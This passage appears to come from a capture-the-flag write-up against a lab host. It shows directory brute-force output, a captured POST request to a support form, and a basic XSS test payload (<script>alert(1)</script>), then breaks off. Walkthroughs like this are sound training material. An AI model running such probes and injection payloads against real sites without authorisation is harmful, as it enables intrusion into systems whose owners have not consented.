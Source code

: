 ```shell
/dashboard            (Status: 500) [Size: 265]
Progress: 20463 / 26585 (76.97%)[ERROR] parse "http://10.10.11.8:5000/error\x1f_log": net/url: invalid control character in URL
Progress: 26584 / 26585 (100.00%)
===============================================================
Finished
===============================================================
```

We manage to found `/dashboard` but its getting error 500. But when navigating to the page we get error 401 (Unauthorized) hinting that there may be some form authentication.

We can try opening this in our proxy tool like Burp Suite to see what our request would look like.

```
POST /support HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 73
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/support
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

fname=John&lname=Doe&email=john%40test.com&phone=11223123&message=testing
```

Since, this is a POST request we can try test to see if its vulnerable to XSS with simple alert script in one of the field.

```html
<script>alert(1)</script>
```

However when we do this we get the following page.
